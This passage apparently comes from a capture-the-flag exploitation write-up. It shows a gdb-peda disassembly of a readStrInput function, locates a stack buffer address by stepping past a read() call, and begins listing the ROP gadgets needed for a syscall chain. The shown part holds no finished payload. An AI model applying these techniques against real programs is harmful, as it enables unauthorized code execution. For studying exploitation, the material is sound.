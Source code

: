 ```
   0x0000000000400ab5 <+77>:	mov    edi,eax
   0x0000000000400ab7 <+79>:	mov    eax,0x0
   0x0000000000400abc <+84>:	call   0x400860 <dprintf@plt>
   0x0000000000400ac1 <+89>:	mov    rax,QWORD PTR [rip+0x2015f8]        # 0x6020c0 <stdout@@GLIBC_2.2.5>
   0x0000000000400ac8 <+96>:	mov    rdi,rax
   0x0000000000400acb <+99>:	call   0x400890 <fflush@plt>
   0x0000000000400ad0 <+104>:	mov    eax,DWORD PTR [rbp-0x98]
   0x0000000000400ad6 <+110>:	movsxd rdx,eax
   0x0000000000400ad9 <+113>:	lea    rcx,[rbp-0x90]
   0x0000000000400ae0 <+120>:	mov    eax,DWORD PTR [rbp-0x94]
   0x0000000000400ae6 <+126>:	mov    rsi,rcx
   0x0000000000400ae9 <+129>:	mov    edi,eax
   0x0000000000400aeb <+131>:	call   0x400870 <read@plt>
   0x0000000000400af0 <+136>:	mov    QWORD PTR [rbp-0x8],rax
   0x0000000000400af4 <+140>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x0000000000400af8 <+144>:	mov    eax,DWORD PTR [rbp-0x94]
   0x0000000000400afe <+150>:	mov    esi,0x400ebb
   0x0000000000400b03 <+155>:	mov    edi,eax
   0x0000000000400b05 <+157>:	mov    eax,0x0
   0x0000000000400b0a <+162>:	call   0x400860 <dprintf@plt>
   0x0000000000400b0f <+167>:	nop
   0x0000000000400b10 <+168>:	leave  
   0x0000000000400b11 <+169>:	ret    
End of assembler dump.
gdb-peda$ b *readStrInput+131
Breakpoint 1 at 0x400aeb
gdb-peda$ i r rsi
rsi            0x7fffffffe1e0	0x7fffffffe1e0
gdb-peda$ x/16x $rsi
0x7fffffffe1e0:	0x0000000000000000	0x0000000000000000
0x7fffffffe1f0:	0x0000000000000000	0x0000000000000000
0x7fffffffe200:	0x0000000000000000	0x0000000000000000
0x7fffffffe210:	0x0000000000000000	0x0000000000000000
0x7fffffffe220:	0x0000000000000000	0x0000000000000000
0x7fffffffe230:	0x0000000000000000	0x0000000000000000
0x7fffffffe240:	0x0000000000000000	0x0000000000000000
0x7fffffffe250:	0x0000000000000000	0x0000000000000000
gdb-peda$ n
0x0000000000400af0 in readStrInput ()
gdb-peda$ x/16x $rsi
0x7fffffffe1e0:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe1e8:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
```

Therefore, our stack address is `0x7fffffffe1e0`


## Find gadgets

We need five gadgets:
- pop RAX
- pop RDI
- pop RSI
- pop RDX
- syscall
